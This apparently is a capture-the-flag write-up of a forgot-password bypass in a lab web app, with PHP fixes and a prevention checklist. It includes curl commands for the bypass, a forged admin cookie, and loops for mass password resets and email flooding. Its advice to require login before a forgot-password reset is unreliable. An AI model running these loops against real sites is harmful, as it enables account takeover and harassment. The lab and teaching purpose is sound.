


# Breach #10: Forgot Password Validation Bypass

## Vulnerability Overview

**Vulnerability Type**: Authentication Bypass, Missing Server-Side Validation
**Risk Level**: High
**Attack Vector**: Direct HTTP Requests, Cookie Manipulation

The password recovery page accepts POST requests without proper authentication or validation, allowing attackers to bypass frontend restrictions and trigger password reset functionality for any email address.

## Discovery Process

### Step 1: Identify the Password Recovery Page
**URL**: `http://192.168.64.2/index.php?page=recover`

The password recovery page contains a form to submit email addresses for password reset.



### Step 2: Analyze the Form Submission
Using browser DevTools, inspect the Network tab when submitting the form:

**Request Details**:
- **Method**: POST
- **URL**: `http://192.168.64.2/index.php?page=recover`
- **Body**: `mail=user@example.com&Submit=Submit`


**Key Finding**: No authentication required, and email validation only happens on the client-side.

### Step 3: Bypass Using Direct POST Request

Send a POST request with any email address:

```bash
curl -X POST 'http://192.168.64.2/?page=recover' \
     -H "Content-Type: application/x-www-form-urlencoded" \
     -d "mail=test@example.com&Submit=Submit"
```

**Response**:
```html
<h2>The flag is : 1d4855f7337c0c14b6f44946872c4eb33853f40b2d54393fbe94f49f1e19bbb0</h2>
```

### Alternative: Using Admin Cookie

The vulnerability can also be exploited using the admin cookie found in Breach #12:

```bash
curl -X POST 'http://192.168.64.2/?page=recover' \
     -b 'I_am_admin=68934a3e9455fa72420237eb05902327' \
     -d 'Submit=Submit'
```



This demonstrates that the server doesn't properly validate authentication state.

## Vulnerability Explanation

### What Went Wrong?

#### 1. No Authentication Required
The password recovery endpoint accepts requests without verifying:
- User is logged in
- User has permission to reset passwords
- Request comes from authenticated session

#### 2. Missing Server-Side Validation
```php
// Vulnerable code (hypothetical)
<?php
if ($_SERVER['REQUEST_METHOD'] === 'POST') {
    $email = $_POST['mail'];
    // No validation!
    sendPasswordReset($email);
    echo "Password reset email sent!";
}
?>
```

#### 3. Frontend-Only Security
The form might have client-side validation:
```html
<form method="POST">
    <input type="email" name="mail" required>
    <button type="submit">Submit</button>
</form>
```

But this is easily bypassed with direct HTTP requests.

### Trust Boundary Violation

```
┌─────────────────┐         ┌─────────────────┐
│   Browser       │         │   Server        │
│  (Attacker)     │────────>│   (Trusting)    │
└─────────────────┘         └─────────────────┘
 Bypass frontend           No backend checks
 Send any email            Accept any request
```

The server trusts all incoming requests without verification.

### Why This Is Dangerous

1. **Account Takeover**: Attacker can reset passwords for any user
2. **Information Disclosure**: Server reveals sensitive information (flag)
3. **No Rate Limiting**: Unlimited password reset requests
4. **No Email Verification**: System doesn't verify email ownership

## Attack Scenarios

### Scenario 1: Mass Password Reset Attack
```bash
# Reset passwords for all users
for email in $(cat user_emails.txt); do
    curl -X POST 'http://192.168.64.2/?page=recover' \
         -d "mail=$email&Submit=Submit"
done
```

**Impact**: All users locked out, credentials compromised

### Scenario 2: Targeted Account Takeover
```bash
# Target specific high-value account
curl -X POST 'http://192.168.64.2/?page=recover' \
     -d "mail=admin@company.com&Submit=Submit"
```

**Impact**: Administrative access compromise

### Scenario 3: Denial of Service
```bash
# Spam reset emails to legitimate users
while true; do
    curl -X POST 'http://192.168.64.2/?page=recover' \
         -d "mail=victim@example.com&Submit=Submit"
    sleep 1
done
```

**Impact**: Email flooding, service disruption

## Prevention Measures

### 1. Implement Proper Authentication

```php
<?php
session_start();

// Require authentication
if (!isset($_SESSION['user_id'])) {
    http_response_code(401);
    die(json_encode(['error' => 'Authentication required']));
}

// Only allow users to reset their own password
$user_id = $_SESSION['user_id'];
$requested_email = $_POST['mail'];

if (!isUserOwnEmail($user_id, $requested_email)) {
    http_response_code(403);
    die(json_encode(['error' => 'Forbidden']));
}
?>
```

### 2. Generate Secure Reset Tokens

```php
<?php
function generateResetToken($email) {
    // Generate cryptographically secure token
    $token = bin2hex(random_bytes(32));

    // Store with expiration
    $expiry = time() + (15 * 60); // 15 minutes
    storeResetToken($email, $token, $expiry);

    return $token;
}

function sendPasswordResetEmail($email, $token) {
    $reset_link = "https://example.com/reset?token=$token";

    $message = "Click this link to reset your password: $reset_link";
    $message .= "\nThis link expires in 15 minutes.";

    mail($email, "Password Reset", $message);
}
?>
```

### 3. Validate Email Ownership

```php
<?php
// Send token to email
$token = generateResetToken($email);
sendPasswordResetEmail($email, $token);

// User must prove email ownership
function resetPassword($token, $new_password) {
    $reset = getResetTokenData($token);

    if (!$reset || $reset['expiry'] < time()) {
        throw new Exception('Invalid or expired token');
    }

    // Token is valid, allow password reset
    updatePassword($reset['email'], $new_password);
    deleteResetToken($token);
}
?>
```

### 4. Implement Rate Limiting

```php
<?php
class RateLimiter {
    private $redis;
    private $max_attempts = 3;
    private $window = 3600; // 1 hour

    public function checkLimit($email) {
        $key = "password_reset:$email";
        $attempts = $this->redis->incr($key);

        if ($attempts === 1) {
            $this->redis->expire($key, $this->window);
        }

        if ($attempts > $this->max_attempts) {
            throw new Exception('Too many reset attempts');
        }
    }
}
?>
```

### 5. Add CSRF Protection

```php
<?php
// Generate CSRF token
session_start();
if (!isset($_SESSION['csrf_token'])) {
    $_SESSION['csrf_token'] = bin2hex(random_bytes(32));
}

// Validate CSRF token
if ($_POST['csrf_token'] !== $_SESSION['csrf_token']) {
    http_response_code(403);
    die('CSRF token validation failed');
}
?>
```

### 6. Secure Password Reset Flow

```
┌──────────┐
│ 1. User  │ Requests reset (with CAPTCHA)
└────┬─────┘
     ↓
┌────▼─────┐
│ 2. Server│ Validates email exists
└────┬─────┘ Generates secure token
     ↓       Rate limits by email/IP
┌────▼─────┐
│ 3. Email │ Sends token link (15 min expiry)
└────┬─────┘
     ↓
┌────▼─────┐
│ 4. User  │ Clicks link, proves email ownership
└────┬─────┘
     ↓
┌────▼─────┐
│ 5. Server│ Validates token
└────┬─────┘ Single-use token
     ↓       Expires after use
┌────▼─────┐
│ 6. User  │ Sets new password
└────┬─────┘
     ↓
┌────▼─────┐
│ 7. Server│ Updates password
└──────────┘ Invalidates all sessions
             Logs security event
```

## Real-World Impact

### Similar Vulnerabilities

1. **Instagram (2017)**: Password reset vulnerability allowed account takeover
2. **Uber (2016)**: Password reset token guessing led to driver account compromise
3. **PayPal (2014)**: Reset token manipulation enabled unauthorized access

### Consequences

- **Account Takeover**: Complete access to user accounts
- **Data Breach**: Access to personal information, financial data
- **Reputation Damage**: Loss of user trust
- **Regulatory Fines**: GDPR, CCPA violations
- **Legal Liability**: Lawsuits from affected users

## Security Best Practices

### OWASP Recommendations

1. **Authentication**: Always verify user identity
2. **Authorization**: Check permissions for sensitive operations
3. **Rate Limiting**: Prevent abuse and enumeration
4. **Secure Tokens**: Cryptographically secure, single-use, time-limited
5. **Email Verification**: Prove email ownership before action
6. **Audit Logging**: Track all password reset attempts
7. **HTTPS Only**: Encrypt all communications
8. **CAPTCHA**: Prevent automated attacks

### Implementation Checklist

- [ ] Require authentication for password reset initiation
- [ ] Generate cryptographically secure tokens (32+ bytes)
- [ ] Set token expiration (15 minutes recommended)
- [ ] Implement single-use tokens
- [ ] Add rate limiting (3 attempts per hour per email)
- [ ] Use CAPTCHA for bot prevention
- [ ] Send reset links via email only
- [ ] Validate email ownership through token click
- [ ] Invalidate all sessions after password change
- [ ] Log all reset attempts with IP addresses
- [ ] Implement CSRF protection
- [ ] Use HTTPS for all password reset flows

## References

- [OWASP - Forgot Password Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Forgot_Password_Cheat_Sheet.html)
- [CWE-640: Weak Password Recovery Mechanism](https://cwe.mitre.org/data/definitions/640.html)
- [OWASP - Authentication Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Authentication_Cheat_Sheet.html)

## Flag

```
1d4855f7337c0c14b6f44946872c4eb33853f40b2d54393fbe94f49f1e19bbb0
```
